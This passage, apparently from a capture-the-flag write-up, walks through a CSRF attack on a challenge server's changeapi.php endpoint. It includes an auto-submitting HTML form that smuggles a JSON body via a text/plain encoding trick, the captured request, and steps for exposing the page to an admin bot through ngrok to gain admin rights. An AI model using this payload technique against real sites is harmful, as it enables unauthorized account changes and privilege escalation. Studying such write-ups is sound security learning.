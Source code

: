 It got an extra `=` because of the request is for form data (?param=value)

Therefore, we need to edit the payload to make it as a valid json value

We can add another json element to make the `=` as a string:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://124.71.205.122:10002/changeapi.php" method="POST" enctype="text/plain">
      <input type="hidden" name='{"username":"skr","test":"' value='"}' />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
The payload should be `{"username":"skr","test":"="}`

Check the payload in Burp can see it is valid now:
```
POST /changeapi.php HTTP/1.1
Host: 124.71.205.122:10002
Content-Length: 31
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: text/plain
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"username":"skr","test":"="}

```
## Solving
Then next step is to let the admin bot to view the link then it will change our account to admin

But do we need to host our HTML file ? 

We can use https://ngrok.com/ it will redirect the public URL to our localhost, so we just need to host it locally!!

Running `python3 -m http.server` on the directory then will host the file locally on port 8000

```bash
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Then run `ngrok http 8000` it will provide a public URL to access to your localhost port 8000
